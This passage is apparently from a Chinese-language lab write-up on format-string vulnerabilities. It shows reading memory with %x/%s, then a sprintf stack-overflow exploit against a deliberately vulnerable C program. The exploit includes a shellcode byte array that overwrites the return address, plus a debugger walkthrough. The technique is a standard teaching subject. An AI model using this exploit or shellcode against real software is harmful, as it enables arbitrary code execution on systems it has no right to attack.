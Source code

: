 * 代码将要查看位于地址`0x77E61044`的内存内容。
* 前3个参数为提供的3个参数，后面的一群`%x`是为了将`%s`的参数对应到地址`0x77e61044`上，所以可以输出内存`0x77e61044`的内容直到遇到截断符。 {% grouppicture 2-2 %} {%
  asset_img 3.png %} {% asset_img 4.png %} {% endgrouppicture %} {% asset_img 5.png "内存0x77e61044的内容" %}
* 该段程序输出如下 {% asset_img 6.png %}

### 实际操作对格式化输出函数漏洞进行利用

1. `sprintf()`函数
	* `sprintf`的函数原型是这样的：`int sprintf (char *buffer, const char *format, [argument] ...);`
		- `buffer` 指针指向将要写入字符串的缓冲区
		- `format` 格式化字符串
		- `argument` 为可选参数
	* `sprintf`函数的漏洞点在于它假定任意长度的缓冲区存在。

2. shellcode解析 {% codeblock lang:c line_number:false %} char user[]=
   "%497d\x39\x4a\x42\x00"
   "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
   "\x33\xDB\x53\x68\x62\x75\x70\x74\x68\x62\x75\x70\x74\x8B\xC4\x53"
   "\x50\x50\x53\xB8\x68\x3D\xE2\x77\xFF\xD0\x90\x90\x90\x90\x90\x90"
   "\xB8\xBB\xB0\xE7\x77\xFF\xD0\x90\x90\x90\x90"; {% endcodeblock %}
	* 我们使用数组`user`作为用户的“输入”，`\x39\x4a\x42\x00`为shellcode的起始地址，用来覆盖函数的返回地址。`\x33\xdb`开始是我们的弹框shellcode。当调用`sprintf`
	  时，它会读取一个参数以`%497d`的格式写入outbuf，由于未提供该参数，会自动将栈地址`0x0012fae0`中的值视为该参数，即`0x12ff80`。需要写入`outbuf`的总字符串长度为 $19+497=516$
	  ，而`outbuf`长度为`512`，因此会导致栈溢出, 使得函数的返回后执行`sprintf()`后`outbuf`的内容。

3. 漏洞利用
	- 整体代码如下 
      ```c 
      // libraries import omitted 
      void mem(){ 
        //__asm int 3 
        char outbuf[512]; 
        char buffer[512]; 
        sprintf(
	      buffer,
	      "ERR Wrong command: %.400s", user
	    ); /* 执行完上一步后buffer[]="ERR Wrong command: %497d\x39\x4a\x42\x00" 00424a39为shellcode地址；此处仅仅就是一串nop而已 */ 
        sprintf(outbuf,buffer); 
        //sprintf(outbuf,"ERR Wrong command: %497d\x39\x4a\x42\x00"); 
      }
      int main(){ 
        LoadLibrary("user32.dll"); 
        mem(); 
        return 0; 
      } 
      ```
   
    - `mem`函数中，分配了两个`512`字节大小的缓冲区，并进行了两次`sprintf`操作。
	- 第一次`sprintf`后，`buffer`（在`0x424a30`）中的内容应该是`"ERR Wrong command: %497d\x39\x4a\x42\x00"`，其后的内容因为有`0x00`而被截断。 {%
	  grouppicture 2-2 %} {% asset_img 7.png %} {% asset_img 8.png %} {% endgrouppicture %}
	- 第二次执行`sprintf`，它会读取一个参数以`%497d`的格式写入`outbuf`，由于未提供该参数，会自动将栈地址`0x0012fae0`中的值视为该参数，即`0x12ff80`。 {% asset_img 9.png
	  %}
	- `outbuf`起始地址为`0x0012fd2c`, 19字节的字符串`ERR Wrong command: `后为497字节的整型数字`1245056`，因此从`0012ff30`开始为`\x39\x4a\x42\x00`。
	  {% asset_img 11.png %}
	- 我们成功将返回地址`0x4010d1`覆盖为shellcode的地址`0x424a39`。 
      {% grouppicture 2-2 %} 
      {% asset_img 10-ori.png "修改前" %} 
      {% asset_img 10-changed.png "修改后" %} 